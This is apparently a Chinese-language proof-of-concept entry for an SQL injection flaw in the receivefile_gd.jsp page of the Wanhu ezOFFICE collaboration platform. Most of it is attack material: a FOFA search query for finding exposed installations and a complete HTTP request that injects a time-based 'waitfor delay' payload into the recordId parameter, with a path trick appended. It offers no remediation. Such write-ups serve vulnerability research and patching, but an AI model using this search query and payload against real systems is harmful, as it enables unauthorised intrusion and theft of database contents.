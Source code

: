 # 万户ezOFFICE协同管理平台receivefile_gd.jsp存在SQL注入漏洞

万户ezOFFICE协同管理平台receivefile_gd.jsp存在SQL注入漏洞，攻击者可获取数据库敏感信息。

## fofa

```yaml
app="万户ezOFFICE协同管理平台"
```

## poc

```
GET /defaultroot/modules/govoffice/gov_documentmanager/receivefile_gd.jsp;.js?recordId=221;waitfor+delay+'0:0:5'--+- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Connection: close
```



## 漏洞来源

- https://mp.weixin.qq.com/s/Oy5iPqfBXAh46tjHZFSg8w